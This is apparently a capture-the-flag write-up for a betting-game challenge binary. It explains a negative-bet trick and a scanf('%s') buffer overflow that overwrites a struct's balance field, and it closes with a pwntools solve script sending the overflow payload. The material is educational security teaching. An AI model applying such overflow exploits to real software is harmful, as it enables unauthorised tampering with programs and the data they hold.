 # Solution

## Understand the source code
To conclude, this challenge requires player to win to games to get the flag.

### Game 1

You can pass game 1 easily by following the steps from this [this](https://www.hkcert.org/f/event/266165/36d1d204-4c35-4379-87fb-64fceb669885-DLFE-15201.pdf).

### Game 2

Game 2 is similar to the game 1, winning the game by make the balance > 100000 but this time the program will check and ban the negative nubmer input, therefore player cannot use the same trick in game 1 anymore. 

## Vulnerability analysis

The vulnerability comes from `scanf("%s", game.choice);` in line 153. The scanf format `"%s"` does not restrict how many characters that users can input, thus users can input as long as they want, resulting in an overflow of the buffer `game.choice`.

## Exploitation

According to the source code, the type of `game` is `Game`, defined:

```c
struct Game {
    char choice[100];
    long long int balance;
    long long int bet;
    int correct;
    int guess;
    int answer;
};
```

`char choice[100];` mean `choice` can only store 100 characters. If the user input more than 100 characters, `choice` will be overflown and the variables (e.g. `balance`, `bet`) under the `choice` will be overwritten by the overflown characters.

For example, If the user input exactly 108 'A', then the `choice` will become 100 'A' and the `balance` will be 0x4141414141414141 (ASCII value of 'A' is 0x41), and since 0x4141414141414141 > 100000, the user wins game 2 and then the program will print out the flag.

## Full solve script

```python
from pwn import *

p = process('./chall')

# Game1
p.sendlineafter('Are you ready? Y/N :', b'Y')
p.sendlineafter('Bet :', b'-1000000')
for i in range(10):
    p.sendlineafter('Guess :', b'0')
# Game1 win

# Game2
p.sendlineafter('Are you ready? Y/N :', b'a'*108)
p.sendlineafter('Are you ready? Y/N :', b'Y')
p.sendlineafter('Bet :', b'1')
p.sendlineafter('Guess :', b'1')
# Game1 win

p.interactive()
```